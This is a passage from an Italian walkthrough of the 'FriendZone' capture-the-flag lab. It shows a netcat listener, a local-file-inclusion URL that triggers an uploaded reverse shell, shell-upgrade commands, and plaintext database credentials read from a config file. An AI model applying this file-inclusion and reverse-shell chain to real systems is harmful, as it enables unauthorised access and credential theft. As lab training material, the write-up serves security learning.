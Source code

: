 Ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
```

Visitiamo la pagina 
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/revers
> Ricordiamoci di non mettere il .php dopo revers

Otteniamo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.123] 48286
/bin/sh: 0: can't access tty; job control turned off

```

Con which python3 verifichiamo che abbiamo installato python3 cosi da poter effettuare un upgrade della shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

SHELL=/bin/bash script -q /dev/null


^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
www-data@FriendZone:/var/www$    


```

Troviamo quelle che sembrano le credenziali dell'utente frined
```bash
www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ

```
